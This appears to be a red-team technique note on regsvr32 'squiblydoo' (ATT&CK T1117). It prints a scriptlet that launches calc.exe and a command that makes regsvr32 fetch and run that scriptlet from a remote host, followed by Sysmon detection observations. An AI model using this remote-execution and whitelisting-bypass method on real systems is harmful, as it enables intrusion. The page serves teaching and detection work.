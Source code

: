 ```yaml
---
description: >-
  Bypass application whitelisting software by utilizing tools that are built
  into the operating system by default.
---
```


# T1117: regsvr32 aka squiblydoo

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1117\",\"type\":\"link\",\"title\":\"Regsvr32 - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

